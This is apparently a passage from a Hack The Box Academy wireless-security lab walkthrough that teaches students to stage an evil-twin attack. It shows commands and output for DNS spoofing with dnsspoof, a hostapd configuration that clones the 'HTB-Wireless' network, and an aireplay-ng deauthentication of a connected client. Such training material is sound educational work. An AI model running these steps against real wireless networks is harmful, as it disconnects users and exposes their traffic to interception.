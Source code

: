 Additionally, students need to use `dnsspoof` allow traffic to be redirected to `wlan1`.

Code: shell

```shell
sudo dnsspoof -i wlan1
```

```
wifi@twins:~$ sudo dnsspoof -i wlan1

dnsspoof: listening on wlan1 [udp dst port 53 and not src 192.168.0.1]
```

Next, students need to create the configuration file for the Evil-Twin, then launch it using `hostapd`.

Code: shell

```shell
cat << EOF > hostapd.conf
interface=wlan1
hw_mode=g
ssid=HTB-Wireless
channel=1
driver=nl80211
EOF

sudo hostapd hostapd.conf
```

```
wifi@twins:~$ cat << EOF > hostapd.conf
interface=wlan1
hw_mode=g
ssid=HTB-Wireless
channel=1
driver=nl80211
EOF

wifi@twins:~$ sudo hostapd hostapd.conf 

rfkill: Cannot open RFKILL control device
wlan1: interface state UNINITIALIZED->ENABLED
wlan1: AP-ENABLED 
```

With the Evil-Twin now configured and active, students need to deauthenticate the client connected to the legitimate `HTB-Wireless` network.

Code: shell

```shell
sudo aireplay-ng --deauth 10 -a 52:CD:8C:79:AD:87 -c 02:00:00:00:01:00 wlan0mon
```

```
wifi@twins:~$ sudo aireplay-ng --deauth 10 -a 52:CD:8C:79:AD:87 -c 02:00:00:00:01:00 wlan0mon

02:54:47  Waiting for beacon frame (BSSID: 52:CD:8C:79:AD:87) on channel 1
02:54:47  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:01:00] [ 0| 0 ACKs]
02:54:48  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:01:00] [ 0| 0 ACKs]
02:54:48  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:01:00] [ 0| 0 ACKs]
02:54:49  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:01:00] [ 0| 0 ACKs]
02:54:50  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:01:00] [ 0| 0 ACKs]
02:54:50  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:01:00] [ 0| 0 ACKs]
02:54:51  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:01:00] [ 0| 0 ACKs]
02:54:51  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:01:00] [ 0| 0 ACKs]
02:54:52  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:01:00] [ 0| 0 ACKs]
02:54:52  Sending 64 directed DeAuth (code 7). STMAC: [02:00:00:00:01:00] [ 0| 0 ACKs]
```